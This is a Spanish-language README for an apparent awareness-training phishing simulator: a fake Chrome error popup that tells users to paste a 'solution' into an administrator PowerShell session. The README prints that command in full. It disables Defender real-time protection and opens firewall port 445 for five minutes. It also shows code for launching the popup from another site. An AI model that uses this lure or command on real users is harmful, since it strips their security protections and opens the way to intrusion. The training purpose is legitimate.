 
# 🎣 Simulador de Phishing - Concientización en Ciberseguridad

Este proyecto es una **simulación de ataque phishing** desarrollada con fines **educativos y de concientización**, pensada para demostrar cómo funcionan ciertas técnicas engañosas utilizadas por atacantes reales. El archivo principal es `popup.html`, el cual simula un mensaje emergente falso con una apariencia legítima y botones que inducen al usuario a ejecutar comandos maliciosos.

---

## ⚠️ IMPORTANTE

> **Este proyecto es únicamente para uso educativo, en entornos controlados y con consentimiento informado.**  
> ❌ No debe ser utilizado con fines maliciosos ni en sistemas de terceros sin autorización expresa.

---

## 📝 Descripción del proyecto

El archivo `popup.html` muestra una ventana emergente que simula un error en el navegador Chrome. La interfaz guía al usuario a "copiar una solución" para luego pegarla en PowerShell como administrador, lo cual replica un ataque real de ingeniería social.

📦 Puede ser invocado desde otra web con este código:

```javascript
window.open("popup.html", "popupWindow", "width=600,height=400,resizable=no,scrollbars=no");
```

### 🔧 Funciones simuladas

- 🖼️ Imitación visual de un mensaje de error oficial.
- 📋 Botón de “Copiar solución” que copia un comando PowerShell.
- ❌ Botón para cerrar manualmente el popup.
- 🎨 Animaciones suaves y diseño similar al de Google Chrome.

---

## 🎯 Objetivo

El objetivo principal es educar sobre:

- 🧠 Cómo los atacantes engañan visualmente a los usuarios.
- 🛠️ Qué tipo de comandos pueden ocultar detrás de mensajes aparentemente confiables.
- 🔐 La importancia de **no ejecutar comandos sin verificar su procedencia**.

---

## 🧪 Comando simulado

Este es el comando que se copia al portapapeles:

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; netsh advfirewall firewall add rule name="Puerto_445_TCP" dir=in action=allow protocol=TCP localport=445; Start-Sleep -Seconds 300; Set-MpPreference -DisableRealtimeMonitoring $false; netsh advfirewall firewall delete rule name="Puerto_445_TCP"
```

☠️ Este tipo de comando desactiva temporalmente el antivirus y abre puertos del firewall: algo **altamente peligroso en escenarios reales**.

---

## 🧑‍🏫 Uso recomendado

Utilizá este simulador en:

- 🧪 Laboratorios de ciberseguridad.
- 🧑‍💻 Capacitaciones y charlas educativas.
- 🧠 Ejercicios de ingeniería social simulada.
- 🔍 Auditorías internas con propósito de concientización.

---

## 🗂️ Archivos

- `popup.html`: ventana emergente con el mensaje falso y botones interactivos.
- Código externo JS: para abrir el popup desde otra web.

---

## 👤 Autor

**Sebastián Peinador**  
👨‍🏫 Docente y especialista en Ciberseguridad  
🏥 Ministerio de Salud - Hospital José M. Penna (CABA)  
📚 CFP36 - Ministerio de Educación (CABA)

---

## 📢 Contribuciones

Se aceptan pull requests que amplíen el material con nuevas simulaciones u opciones visuales.  
💡 ¡Todo aporte educativo es bienvenido!

---

## 🛑 Disclaimer legal

Este proyecto fue creado exclusivamente con fines educativos.  
**⚖️ No nos responsabilizamos por el mal uso del código ni por las consecuencias legales o técnicas derivadas de su uso inapropiado.**
